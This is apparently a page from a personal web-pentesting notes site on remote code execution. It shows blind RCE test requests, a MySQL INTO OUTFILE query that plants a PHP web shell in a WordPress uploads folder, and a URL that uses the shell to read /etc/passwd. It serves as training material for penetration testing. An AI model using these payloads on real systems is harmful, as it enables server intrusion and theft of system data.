

repository: amandaguglieri/hackinglife · page: webexploitation/remote-code-execution-rce/index.html · generator: mkdocs

---
title: RCE attack - Remote Code Execution
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---

# RCE attack - Remote Code Execution

_RCE_ attacks involve attackers manipulating network traffic by exploiting code vulnerabilities to access a corporate system.

Exploiting Blind Remote Execution Vulnerability attack in a GET request in BurpSuite (to run the queries) and Wireshark (to capture the traffic).

```
________
GET /script.php?c=sleep+5&ok=ok HTTP/1.1
Host 192.168.137.130
User Agent....
...
________
```


Also other command:

```
GET /script.php?c=ping+192.168.139.130+-c+5&ok=ok HTTP/1.1
```



## Gaining a reverse shell from SQL injection

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql pannel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

Now code can be executed from the browser: 

```
https://192.168.56.108:12380/blogblog/wp-content/uploads/shell.php?cmd=cat+/etc/passwd
```
